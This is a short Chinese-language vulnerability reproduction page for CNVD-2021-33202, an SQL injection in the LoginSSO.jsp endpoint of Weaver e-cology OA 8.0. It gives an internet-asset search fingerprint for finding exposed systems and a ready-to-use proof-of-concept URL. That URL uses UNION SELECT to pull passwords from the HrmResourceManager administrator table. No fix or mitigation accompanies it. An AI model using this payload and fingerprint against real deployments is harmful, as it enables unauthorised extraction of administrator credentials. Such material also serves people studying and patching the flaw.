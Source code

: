 # 泛微OA E-Cology LoginSSO.jsp SQL注入漏洞 CNVD-2021-33202

# 泛微OA E-Cology LoginSSO.jsp SQL注入漏洞 CNVD-2021-33202

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等。 泛微e-cology存在SQL注入漏洞。攻击者可利用该漏洞获取敏感信息。

## 漏洞影响

```
泛微e-cology 8.0
```

## 网络测绘

```
app="泛微-协同办公OA"
```

## 漏洞复现

登录页面

![image-20220520133932334](/images/202205201339405.png)

验证POC

```
/upgrade/detail.jsp/login/LoginSSO.jsp?id=1%20UNION%20SELECT%20password%20as%20id%20from%20HrmResourceManager
```

![image-20220520134011931](/images/202205201340985.png)

